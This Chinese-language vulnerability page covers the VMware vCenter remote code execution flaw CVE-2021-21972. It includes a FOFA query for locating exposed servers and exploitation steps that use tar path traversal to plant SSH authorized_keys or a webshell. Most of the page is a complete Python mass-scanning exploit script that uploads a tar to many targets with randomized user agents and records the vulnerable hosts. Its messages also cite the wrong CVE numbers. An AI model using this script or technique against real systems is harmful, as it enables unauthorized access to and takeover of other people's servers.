

VMware vCenter Server 远程代码执行漏洞 CVE-2021-21972¶
漏洞描述¶
由于对 vSphere vCenter Server中用户提供的输入的验证不足，因此存在该漏洞。远程非身份验证攻击者可以向端口 443/tcp 发送专门制作的 HTTP 请求，并在系统上执行任意代码。
参考链接：
- https://blog.noah.360.net/vcenter-6-5-7-0-rce-lou-dong-fen-xi/
- https://swarm.ptsecurity.com/unauth-rce-vmware/
- https://www.vmware.com/security/advisories/VMSA-2021-0002.html
漏洞影响¶
VMware vCenter Server 7.0系列 < 7.0.U1c
VMware vCenter Server 6.7系列 < 6.7.U3l
VMware vCenter Server 6.5系列 < 6.5 U3n
网络测绘¶
app="vmware-vCenter"
漏洞复现¶
漏洞路径：
https://target/ui/vropspluginui/rest/services/uploadova
POST: name="uploadFile"; filename="xxx.tar"
构造POST包上传tar文件：

Linux可以直接创建../../home/vsphere-ui/.ssh/authorized_keys TAR文件 后直接SSH连；Windows可以直接写入webshell。
批量检测脚本：
#-*- coding:utf-8 -*-
banner = """
888888ba dP
88 `8b 88
a88aaaa8P' .d8888b. d8888P .d8888b. dP dP
88 `8b. 88' `88 88 Y8ooooo. 88 88
88 .88 88. .88 88 88 88. .88
88888888P `88888P8 dP `88888P' `88888P'
ooooooooooooooooooooooooooooooooooooooooooooooooooooo
@time:2021/02/25 CVE-2021-21972.py
C0de by NebulabdSec - @batsu
"""
print(banner)
import threadpool
import random
import argparse
import http.client
import urllib3
import base64
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'
TARGET_URI = "/ui/vropspluginui/rest/services/uploadova"
def get_ua():
first_num = random.randint(55, 62)
third_num = random.randint(0, 3200)
fourth_num = random.randint(0, 140)
os_type = [
'(Windows NT 6.1; WOW64)', '(Windows NT 10.0; WOW64)', '(X11; Linux x86_64)',
'(Macintosh; Intel Mac OS X 10_12_6)'
]
chrome_version = 'Chrome/{}.0.{}.{}'.format(first_num, third_num, fourth_num)
ua = ' '.join(['Mozilla/5.0', random.choice(os_type), 'AppleWebKit/537.36',
'(KHTML, like Gecko)', chrome_version, 'Safari/537.36']
)
return ua
def CVE_2021_21972(url):
# proxies = {"scoks5": "http://127.0.0.1:1081"}
proxies = {
"http": "http://127.0.0.1:8080",
"https": "http://127.0.0.1:8080",
}
headers = {
'User-Agent': get_ua()
}
# data = base64.b64decode(Payload)
# files = {'uploadFile': open('all.tar', 'rb')} #linux
files = {'uploadFile': open('test.tar', 'rb')} #win
targetUrl = url + TARGET_URI
try:
res = requests.post(url=targetUrl,
headers=headers,
files=files,
verify=False,
proxies=proxies)
# proxies={'socks5': 'http://127.0.0.1:1081'})
if res.status_code == 200 and "SUCCESS" in res.text:
print("[+] URL:{}--------存在CVE-2021-21872漏洞".format(url))
# print("[+] Command success result: " + res.text + "\n")
with open("存在漏洞地址.txt", 'a') as fw:
fw.write(url + '\n')
else:
print("[-] " + url + " 没有发现CVE-2020-14882漏洞.\n")
# except Exception as e:
# print(e)
except:
print("[-] " + url + " Request ERROR.\n")
def multithreading(filename, pools=5):
works = []
with open(filename, "r") as f:
for i in f:
func_params = [i.rstrip("\n")]
# func_params = [i] + [cmd]
works.append((func_params, None))
pool = threadpool.ThreadPool(pools)
reqs = threadpool.makeRequests(CVE_2021_21972, works)
[pool.putRequest(req) for req in reqs]
pool.wait()
def main():
parser = argparse.ArgumentParser()
parser.add_argument("-u",
"--url",
help="Target URL; Example:http://ip:port")
parser.add_argument("-f",
"--file",
help="Url File; Example:url.txt")
# parser.add_argument("-t",
# "--tar",
# help="Create tar File; Example:test.tar")
# parser.add_argument("-c", "--cmd", help="Commands to be executed; ")
args = parser.parse_args()
url = args.url
# cmd = args.cmd
file_path = args.file
# jsp = args.tar
# if jsp != None:
# print(jsp)
# generate_zip(jsp)
if url != None and file_path ==None:
CVE_2021_21972(url)
elif url == None and file_path != None:
multithreading(file_path, 10) # 默认15线程
if __name__ == "__main__":
main()